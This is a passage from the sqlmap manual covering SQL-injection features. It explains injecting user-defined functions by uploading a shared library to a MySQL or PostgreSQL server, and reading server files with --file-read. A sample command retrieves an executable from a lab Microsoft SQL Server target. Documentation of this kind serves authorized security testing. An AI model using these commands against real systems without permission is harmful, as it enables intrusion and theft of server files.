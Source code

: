 The list of common table names is `txt/common-columns.txt` and you can edit it as you wish.

## User-defined function injection

These options can be used to create custom user-defined functions.

### Inject custom user-defined functions (UDF)

Switch and option: `--udf-inject` and `--shared-lib`

You can inject your own user-defined functions (UDFs) by compiling a MySQL or PostgreSQL shared library, DLL for Windows and shared object for Linux/Unix, then provide sqlmap with the path where the shared library is stored locally on your machine. sqlmap will then ask you some questions, upload the shared library on the database server file system, create the user-defined function(s) from it and, depending on your options, execute them. When you are finished using the injected UDFs, sqlmap can also remove them from the database for you. 

These techniques are detailed in the white paper [Advanced SQL injection to operating system full control](http://www.slideshare.net/inquis/advanced-sql-injection-to-operating-system-full-control-whitepaper-4633857).

Use option `--udf-inject` and follow the instructions.

If you want, you can specify the shared library local file system path via command line too by using `--shared-lib` option. Vice versa sqlmap will ask you for the path at runtime.

This feature is available only when the database management system is MySQL or PostgreSQL.

## File system access

### Read a file from the database server's file system

Option: `--file-read`

It is possible to retrieve the content of files from the underlying file system when the back-end database management system is either MySQL, PostgreSQL or Microsoft SQL Server, and the session user has the needed privileges to abuse database specific functionalities and architectural weaknesses. The file specified can be either a textual or a binary file. sqlmap will handle it properly. 

These techniques are detailed in the white paper [Advanced SQL injection to operating system full control](http://www.slideshare.net/inquis/advanced-sql-injection-to-operating-system-full-control-whitepaper-4633857).

Example against a Microsoft SQL Server 2005 target to retrieve a binary file:

```
$ python sqlmap.py -u "http://192.168.136.129/sqlmap/mssql/iis/get_str2.asp?nam\
e=luther" --file-read "C:/example.exe" -v 1

[...]
[hh:mm:49] [INFO] the back-end DBMS is Microsoft SQL Server
web server operating system: Windows 2000
web application technology: ASP.NET, Microsoft IIS 6.0, ASP
back-end DBMS: Microsoft SQL Server 2005

[hh:mm:50] [INFO] fetching file: 'C:/example.exe'
[hh:mm:50] [INFO] the SQL query provided returns 3 entries
C:/example.exe file saved to:    '/software/sqlmap/output/192.168.136.129/files/
C__example.exe'
[...]

$ ls -l output/192.168.136.129/files/C__example.exe 
-rw-r--r-- 1 inquis inquis 2560 2011-MM-DD hh:mm output/192.168.136.129/files/C_
_example.exe

$ file output/192.168.136.129/files/C__example.exe 
output/192.168.136.129/files/C__example.exe: PE32 executable for MS Windows (GUI
```